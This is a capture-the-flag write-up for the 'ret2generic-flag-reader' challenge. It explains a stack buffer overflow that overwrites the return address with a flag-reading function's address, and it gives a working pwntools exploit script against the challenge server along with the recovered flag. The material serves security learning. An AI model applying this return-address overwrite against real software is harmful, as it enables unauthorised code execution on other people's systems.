



# ret2generic-flag-reader

<p align="center">
    <kbd></kbd><br/>
</p>

From the source, I understand that I need to overwrite the ret address to the address of super_generic_flag_reading_function_please_ret_to_me() function

Since the variable comments_and_concerns has a size of 32, I need to spray 40 random characters (32 bytes for the variable “comments_and_concerns” and 8 bytes for the stored rbp) and then the address of super_generic_flag_reading_function_please_ret_to_me() function

To start, find the address of super_generic_flag_reading_function_please_ret_to_me() function <br />
`$ p super_generic_flag_reading_function_please_ret_to_me` <br />
<p align="center">
    <kbd></kbd><br/>
</p>

Create a script to perform the exploit
```
from pwn import *

payload = ("A"*40).encode()
eip = p64(0x4011f6)
payload = payload + eip
p = remote("mc.ax", 31077)
#p = process('./ret2generic-flag-reader')
p.recvuntil("this is genius")
p.sendline(payload)
p.interactive()
```

<p align="center">
    <kbd></kbd><br/>
</p>

Flag: `flag{rob-loved-the-challenge-but-im-still-paid-minimum-wage}`